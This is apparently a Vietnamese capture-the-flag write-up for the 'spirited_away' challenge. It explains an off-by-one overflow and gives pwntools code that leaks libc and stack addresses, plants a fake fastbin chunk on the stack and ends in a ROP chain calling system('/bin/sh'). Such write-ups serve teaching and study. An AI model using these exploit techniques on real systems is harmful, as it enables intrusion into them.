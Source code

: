 # OFF BY ONE 

Ta được cung cấp 2 file là libc_32.so.6 và spirited_away.Cùng kiểm tra các chế độ bảo vệ của file binary :

![image](https://user-images.githubusercontent.com/93699926/235692312-76f954e9-28f5-4f86-bf4b-05db0fbb5290.png)

đây là file32bit cùng các chế độ bảo vệ chỉ được bật duy nhất NX.OK giờ thì kiểm tra luồng thực thi của chương trình trong IDA:

Chúng ta sẽ chỉ quan tâm đến func survey:

![image](https://user-images.githubusercontent.com/93699926/235693225-2e53555d-d0f3-42e1-9e71-4a4d0f77d445.png)

![image](https://user-images.githubusercontent.com/93699926/235693342-cfc209af-18db-4626-8cf6-f425fafbe70a.png)

Xác định lỗi :

![image](https://user-images.githubusercontent.com/93699926/235699108-21654a43-ee43-4e6a-a03b-4b55741ff45a.png)

Ở đây ta thấy chương trình sẽ copy "%d comment so far. We will review them as soon as we can" vô viến char v1[56] . sẽ không có điều gì xảy ra khi chuỗi nãy khi %d <= 2 chữ số .nhưng nếu ta chạy chương trình đến
 lần khảo sat thứ 100 thì string "%d comment so far. We will review them as soon as we can" sẽ lên đến 57 bytes và sẽ tràn 1 bytes "n" xuống variable được khai báo ngay dưới v1 là name_size và nếu đổi 'n' ra số ascii thi sẽ = 110
 
 Tức là ở lần nhập khảo sat thứ 100 ta sẽ có lỗi buffer over flow . Cụ thể là khi chúng ta được nhập vô comment[80]. Và để ý bên dưới biến comment sẽ là biến age và ngay sau đó là con trỏ name.
 phân tích chương trình ta thấy con trỏ name sẽ trỏ đến địa chỉ heap có (size=0x41). và địa chỉ này sẽ được free mỗi khi ta kết thúc 1 lần khảo sát .
 
 Vậy ý tưởng khai thác ở đây sẽ là:
 
 `Bước 1: leak địa chỉ libc`
 
 `Bước 2: over write địa chỉ của một hàm khác VD: puts hoặc printf thành system `
 
để thực hiện ý tưởng này thì ta cần phải over write địa chỉ của name thânh một địa chỉ nào đó (tạo một fake chunks với size 0x41) gần với dịa chỉ của function mà ta muốn overwrite thành system 
Nhưng khó là nó nó cần tìm được vị trí nào đó đáp ứng đúng yêu cầu về heap metadata phù hợp . nếu không chương trình sẽ bị abort.

Vậy nên ta sẽ thay ý tưởng overwrite địa của một hàm nào đó thành overwrite địa chỉ trả về của hàm survey. Làm thế này sẽ dễ hơn trong việc tạo fakechunk khi mà ta để ý thì chương trình không có canary.và khi mà ta được ta ghi trực tiếp ghi lên stack thì sẽ dễ tạo ra fake metadata và fake topchunk size hơn . hai cái này là bắt buộc cần có để không bị lỗi khi chúng ta free name.
. Để thực hiện ý tưởng thì ta cần leak cả địa chỉ stack ra nữa. ok vậy thì ý tưởng cuối cùng sẽ là :

`Bước 1: leak địa chỉ libc`

`Bước 2: leak stack address`

`Bước 3: over write địa chỉ trả về của survey`

# Bước 1: leak libc address 

Ta hãy chạy chương trình với GDB và b \* 0x804878a
địa chỉ ở câu lệnh printf in ra biến reason ta đã nhập trươc đó:

![image](https://user-images.githubusercontent.com/93699926/235700545-59bac901-f973-47e3-bfbe-3dec63e273f9.png)

địa chỉ của biến reason ở vị trí $RSP+0xa8. Ta thấy trên stack có khá nhiều địa chỉ rác là địac chỉ libc . nên nếu ta nối phần input của ta với một trong những địa chỉ trên thì sẽ leak được địa chỉ libc.
lúc đầu mình có chọn một địa chỉ ở gần với biến reason nhưng khi chạy trên sever thì địa chỉ libc base bị tính sai. sau khi thử hết thì có hai địa chỉ uy tín là 0xfffa4f38 và 0xfffa4f54 
. leak libc address ở hai địa chỉ stack này ra thì ta sẽ tính được libc base đúng còn những địa chỉ khác thì có vẻ là khi chạy chường trình trên sever sẽ khác với khi chạy ở LOCAL.

Đoạn code sau sẽ dùng để leak địa chỉ libc và tính libc base:

```python3
name=b"BATMAN"
age=19
payload=b"B"*50
p.sendlineafter(b"name: ",name)
p.sendlineafter(b"age: ",f"{age}".encode())
p.sendafter(b"movie? ",b"A"*73)
p.sendafter(b"comment: ",payload)
p.recvuntil(b"A"*72)
leak=int.from_bytes(p.recv(4),"little")
log.info("[+]leak:"+hex(leak))
libc.address=leak-0x1b0041
log.info('[+]libc base:'+hex(libc.address))
```

Tiếp theo là leak đia chỉ stack:

Để ý ở địa chỉ RBP có chứa địa chỉ stack, vậy nếu ta nhập full 80 bytes của biến reason thì sẽ có thể leak được địac chỉ stack đó ra :

```python3
name=b"BATMAN"
age=19
payload=b"B"*50
reason=b"C"*80
p.sendlineafter(b" <y/n>: ",b"y")
p.sendlineafter(b"name: ",name)
p.sendlineafter(b"age: ",f"{age}".encode())
p.sendafter(b"movie? ",reason)
p.sendafter(b"comment: ",payload)
p.recvuntil(b"C"*80)
leak=int.from_bytes(p.recv(4),"little")
log.info("[+]stack leak:"+hex(leak))
fakechunk=leak-0x60
log.info('[+]fake chunk address:'+hex(fakechunk))
```



và bây giờ để có thể tạo ra lỗi off by one thì ta sẽ cần hoàn thành cái survey them 98 lần nữa :

```python3 
def survey(name,age,comment):
    p.sendlineafter(b" <y/n>: ",b"y")
    p.sendlineafter(b"name: ",name)
    p.sendlineafter(b"age: ",f"{age}".encode())
    p.sendlineafter(b"movie? ",b"A")
    p.sendlineafter(b"comment: ",comment)
for i in range(99):
    print(f"lan{i}")
    survey(name,age,payload)
```

Hãy nhớ lại lúc ở trên . Chúng ta sẽ muốn tạo ra một fakechunks có vị trí ở gần với saved rip của survey . Và sẽ over write name với địa chỉ chỉ đến chunk đó(địa chỉ chunk khong tính phần metadata)
.Và trên stack thì địa chỉ gần với địa chỉ saved rip của survey nhất là comment. vậy ta sẽ sử dụng lần nhập ở tương ứng với comment ở lần nhập tiếp theo để tạo ra một fakechunk
chunk đó sẽ như sau :
```java
metadata: 0x00000000 0x00000041
content : 0x41414141 0x41414141
...     : (padding A*0x38)
Topchunk: 0x00000000 <size of topchunk>
//top chunk size thì bạn cứ chạy thử chương trình trong gdb xong chọn một cái ứng với lần chạy đó là được 
```
sau đó với lỗi buffer overflow như đã phân tích . ta sẽ sử dụng lõi BOF khi nhập comment và sẽ ghi đè biến name trỏ đến địa chỉ chứ content của fakechunk ta đã tạo ra trước đó .
Vì đã ta leak được địa chỉ libc thì ta sẽ có thể tính được địa chỉ content của fakechunks của chúng ta một cách dễ dàng 
.Stack sẽ trông như này sau khi chúng ta thực hiện các điều trên :

![image](https://user-images.githubusercontent.com/93699926/235708216-98a8daaf-8983-493d-829c-7230ec7f7ae3.png)

Tại địa chỉ $RSP +0xa4 chính là biến name của chúng ta , như chúng ta thấy thì nó đã bị thay đổi giá trị thay vì trỏ đến địa chỉ heap thì nó đang chỉ đến địa chỉ stack chứa content của fake chunk của chúng ta  
.Hai địa chỉ trong ô vuông đỏ lần lượt là giá trị của metadata của fakechunk và fake topchunks size của của chúng ta.

Vậy giờ sau khi kết thúc lần khảo sát này . chương trình sẽ free cái fake chunk của chúng ta , nó sẽ vô fastbin, và khi chúng ta thực hiện điền kháo sat một lần nữa thì chương trình sẽ sử dụng lại chính cái fake chunk mà nó đã free trước đó.
và vì khi nhập name ta được nhập đến 110 byte (tương ứng với name_size đã bị ghi đè bởi giá trị của byte 'n' trước đó ).

![image](https://user-images.githubusercontent.com/93699926/235709500-05274fe7-0f53-4dff-a33d-9ba9a98c77d6.png)

thực hiện phép tính thì ta có thể ghi đến tận địa chỉ 0xffb25f06, quá dư giả để thực hiện ROPCHAIN gọi system('/bin/sh') ngay tại rip của survey 

```python3
log.info("[+]ROPPING:")
#### ROPPING########################
p.sendline(b"y")


pop_edi=libc.address+0x000177db
ret=libc.address+0x0000018b
rw_section=0x804aa00
name=b"A"*64+p32(rw_section)
name+=flat(
    libc.sym['system'],
    exe.sym['main'],
    next(libc.search(b"/bin/sh")),
    0,0,
    )
p.sendafter(b"name: ",name)
reason=b"C"*80
p.sendafter(b"movie? ",reason)
payload=b"B"*84
p.sendlineafter(b"comment: ",payload)

p.sendlineafter(b" <y/n>: ",b"n") # trigger survey to return 
```
Chạy trương trình trên LOCAL ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/235710315-3cd27d45-086d-4f98-aa0d-9c1619a9cbee.png)

Chạy trên sever sẽ lâu hơn một chút ,Nhưng đợi chờ là hạnh phúc:

![image](https://user-images.githubusercontent.com/93699926/235711362-b5119550-cfc3-4de1-874f-a8c8fd55d347.png)





 
